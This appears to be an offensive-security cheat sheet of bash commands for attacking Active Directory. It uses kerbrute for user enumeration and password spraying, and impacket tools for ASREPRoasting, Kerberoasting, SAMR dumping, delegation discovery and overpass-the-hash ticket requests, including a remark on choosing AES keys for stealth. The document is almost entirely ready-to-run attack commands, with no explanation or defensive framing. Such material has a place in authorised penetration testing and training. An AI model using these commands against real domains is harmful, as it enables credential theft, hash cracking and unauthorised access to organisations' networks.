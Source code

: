 #### kerbrute to enumerate further users and spray quietly
```bash
./kerbrute_linux_amd64 userenum -d $fqdn --dc $dc ./users.txt
```

#### Check re-use our Known Good Local Admin password
```bash
./kerbrute_linux_amd64 passwordspray -d $fqdn --dc $ip ./users.txt $password
```

#### lookup SIDs
```bash
impacket-lookupsid $fqdn/$user:$password@$ip
```

#### Attempt ASREPRoast for ALL users
```bash
 impacket-GetNPUsers -dc $dc $fqdn/$user:$password -request -format hashcat -outputfile asrephashparty
 impacket-GetNPUsers -dc $dc $fqdn/-usersfile -request -format hashcat -outputfile asrephashparty
```

#### Attempt kerberoasting
```bash
impacket-GetUserSPNs -dc $dc $fqdn/$user:$password -outputfile kerberoastin
```

#### Look for delegation across domain
```bash
impacket-findDelegation -dc $dc $fqdn/$user:$password
```

#### Netview recon
```bash
impacket-netview -dc $dc $fqdn/$user:$password -targets targets.txt -users ./users.txt
```

#### SAMR Dump
```bash
impacket-samrdump $fqdn/$user:$password@$ip
```

#### Services controller
```bash
impacket-services $fqdn/$user:$password@$ip list
```

#### Overpass the Hash/Key
#### Request the TGT with hash
```bash
impacket-getTGT -dc $dc $fqdn/$user -hashes $hash       # [lm_hash]:<ntlm_hash>
```

#### Request the TGT with aesKey (more secure encryption, probably more stealth due is the used by default by Microsoft)
```bash
impacket-getTGT <domain_name>/<user_name> -aesKey $key
```

